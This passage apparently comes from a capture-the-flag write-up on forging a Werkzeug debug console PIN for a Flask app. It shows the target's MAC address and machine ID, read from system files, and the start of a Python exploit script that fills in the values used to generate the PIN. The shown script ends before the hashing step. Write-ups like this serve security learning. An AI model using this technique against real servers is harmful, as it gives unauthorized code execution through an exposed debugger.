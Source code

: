 MAC Address: `int("00:50:56:b9:39:fa".replace(':',''),16) =` 345052363258

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Machine ID: ed5b159560f54721827644bc9b220d00superpass.service

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Once all variables prepared, run exploit script to generate Werkzeug console PIN:

```python
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
	'www-data',# username
	'flask.app',# modname
	'wsgi_app',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

#/app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py

private_bits = [
	'345052363258',# str(uuid.getnode()),  /sys/class/net/eth0/address 
	# Machine Id: /etc/machine-id + /proc/self/cgroup
	'ed5b159560f54721827644bc9b220d00superpass.service'
]
```